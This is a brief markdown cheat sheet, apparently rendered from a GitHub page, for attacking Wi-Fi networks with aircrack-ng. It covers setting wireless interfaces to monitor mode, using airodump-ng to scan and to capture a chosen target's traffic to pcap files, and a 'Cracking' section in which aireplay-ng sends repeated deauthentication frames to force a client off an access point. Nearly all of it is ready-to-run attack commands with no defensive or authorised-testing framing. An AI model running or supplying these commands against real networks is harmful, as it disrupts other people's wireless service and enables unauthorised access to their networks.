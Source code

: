 ## Driver
```bash
https://github.com/aircrack-ng/rtl8812au
```

## Settings
```bash
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up

ip link set wlan1 down
iw dev wlan1 set type monitor
ip link set wlan1 up
```

## Monitor

### Generic
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime --band a wlan0
airodump-ng --manufacturer --beacons --showack --wps --uptime --band bg wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime --band a wlan1
airodump-ng --manufacturer --beacons --showack --wps --uptime --band bg wlan1
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime --band abg wlan0
            --write-interval 5 --output-format pcap --write session0
```

### Target
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --bssid 00:00:00:00:00:00 --channel 1 wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --bssid 00:00:00:00:00:00 --channel 1 wlan0 \
            --write-interval 5 --output-format pcap --write session0
```

## Cracking
```bash
iwconfig wlan1 channel 4

aireplay-ng -0 99 -D -a BSSID -c TARGET wlan1
```

## Kill View
```bash
kill -9 `ps aux | grep -i aircrack | awk '{print $2}'`
```
